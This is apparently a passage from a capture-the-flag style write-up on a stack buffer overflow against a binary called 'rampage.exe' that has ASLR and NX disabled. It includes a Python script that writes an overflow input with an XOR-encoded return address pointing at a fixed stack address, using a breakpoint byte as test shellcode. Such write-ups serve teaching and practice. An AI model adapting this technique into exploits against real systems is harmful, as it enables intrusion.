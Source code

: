 Notice the main program `rampage.exe` does not enable `ASLR` (Ramdomize stack address) and `NXCompat` (Disallow to execute code in stack)

So the stack address is always the same and shellcode is executable on the stack

# Exploit
Now lets try to execute shellcode on stack!

Create a python script to generate the `buf` file:
```py
address = "0019FF30"                # We place the shellcode at 0x0019FF30
address = address.decode("hex")
eip = ''
for a in address:
	eip = chr(ord(a) ^ 0xcc) + eip  # XOR with 0xCC and append inversely
                                    # Because of little-endian in binary

open("buf",'w').write("a"*16 + eip + "b")   # The "b" will become 0xCC
                                            # According to https://en.wikipedia.org/wiki/INT_(x86_instruction)
                                            # 0xCC in machine code is mean breakpoint 
                                            # so it will stop executing when it 
                                            # execute this address (0x0019FF30) 
```

Run it using debugger:

![image7](image7.png)
